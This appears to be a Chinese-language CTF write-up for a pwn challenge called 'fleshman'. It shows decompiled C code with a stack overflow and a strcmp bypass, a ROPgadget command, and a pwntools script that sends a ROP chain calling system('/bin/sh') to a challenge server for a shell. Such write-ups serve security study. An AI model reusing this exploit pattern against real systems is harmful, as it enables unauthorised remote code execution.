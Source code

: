 # fleshman

main函数如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[32]; // [rsp+0h] [rbp-20h] BYREF
 
  memset(s, 0, sizeof(s));
  init();
  puts("We1c0me t0 SDU! Since y0u are f1esh here,te11 me s0mething ab0ut Y0u:");
  puts("Your name: ");
  read(0, s, 0x20uLL);
  puts("Your ID: ");
  read(0, s, 0x28uLL);
  if ( !strcmp(s, "pwnner") )
  {
    printf("\nNice t0 mEEt y0u %s", s);
    putchar(10);
    vuln();
  }
  getflag();
  return 0;
}
```

strcmp绕过＋构造ROP链
![](./freshman1.png)

用ROPgadget查找出pop rdi的地址
`ROPgadget --binary 文件路径 --only "pop|ret" | grep rdi`
然后套用rop链的模板
`payload = b'a'*offset +p64(pop_rdi)+ p64(binsh)+p64(call_system)`

exp如下：

```python
from pwn import *
p = remote("10.102.32.142",31698)
p.sendline(b'miyu')
p.sendline(b'pwnner\x00')
offset = 0x70 + 8
binsh = 0x402640
call_system=0x401392
pop_rdi = 0x401513
payload = b'a'*offset +p64(pop_rdi)+ p64(binsh)+p64(call_system)
p.sendlineafter(b'WhAt can Y0u d0....',payload)
p.interactive()
```

得到flag
